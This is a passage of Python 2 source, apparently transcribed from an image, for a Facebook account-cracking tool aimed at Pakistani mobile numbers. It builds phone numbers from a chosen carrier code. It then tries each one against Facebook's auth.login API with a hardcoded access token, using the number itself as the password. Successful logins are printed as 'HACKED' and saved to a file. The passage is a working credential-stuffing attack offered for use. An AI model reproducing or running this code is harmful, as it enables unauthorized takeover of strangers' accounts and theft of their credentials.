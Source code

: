     print '\x1b[1;97m[5] CLONING ERROR'
    time.sleep(0.10)
    print '\x1b[1;91m[6] M ULLAH FACEBOOK'
    time.sleep(0.10)
    print '\x1b[1;94m[0] back'
   
    time.sleep(0.05)
    action()

def action():
    peak = raw_input('\n\033[1;97mCHOOSE:\033[1;97m')
    if peak =='':
        print '[!] Fill In Correctly'
        action()
    elif peak =="1":              
        os.system("clear")
        print logo2
        print "Enter any Pakistan Mobile code Number"+'\n'
        print 'Enter any code 1 to 49'
        print 'telenor.jazz.zong.warid'
        try:
            c = raw_input("\033[1;97mCHOOSE : ")
            k="03"
            idlist = ('.txt')
            for line in open(idlist,"r").readlines():
                id.append(line.strip())
        except IOError:
            print ("[!] File Not Found")
            raw_input("\n[ Back ]")
            blackmafiax()
    elif peak =='0':
        login()
    else:
        print '[!] Fill In Correctly'
        action()
    print 50* '\033[1;94m-'
    xxx = str(len(id))
    jalan ('\033[1;91m Total ids number: '+xxx)
    jalan ('\033[1;92mCode you choose: '+c)
    jalan ("\033[1;93mWait A While Start Cracking...")
    jalan ("\033[1;94mTo Stop Process Press Ctrl+z")
    print 50* '\033[1;97m-'
    def main(arg):
        global cpb,oks
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass
        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;91m(HACKED)  ' + k + c + user + '  |  ' + pass1                                       
                okb = open('save/cloned.txt', 'a')
                okb.write(k+c+user+pass1+'\n')
                okb.close()
                oks.append(c+user+pass1)
            else:
                if 'www.facebook.com' in q['error_msg']:
                    print '\033[1;93m(ERROR) ' + k + c + user + '  |  ' + pass1